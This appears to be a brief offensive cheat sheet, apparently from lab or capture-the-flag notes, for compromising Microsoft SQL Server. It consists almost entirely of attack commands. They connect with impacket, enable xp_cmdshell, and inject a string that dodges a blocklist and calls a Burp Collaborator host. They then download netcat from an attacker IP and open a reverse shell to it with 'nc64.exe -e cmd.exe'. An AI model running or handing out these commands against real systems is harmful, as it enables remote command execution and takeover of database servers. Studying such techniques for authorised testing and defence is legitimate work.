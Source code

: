 # MSSQL

Connect to MSSQL instance with impacket-mssqlclient

```
impacket-mssqlclient machine_name/user@[IP] -windows-auth
```

Enable xp\_cmdshell

```
#this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'

# Bypass blackisted "EXEC xp_cmdshell"
‘; DECLARE @x AS VARCHAR(100)=’xp_cmdshell’; EXEC @x ‘ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net’ —
```

Check what role the user has on the server

```
SQL> SELECT is_srvrolemember('sysadmin');
              

-----------   

          1   
```

Download netcat  to the victim and  create a reverse shell

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe"

SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
10.10.14.9 443"
```
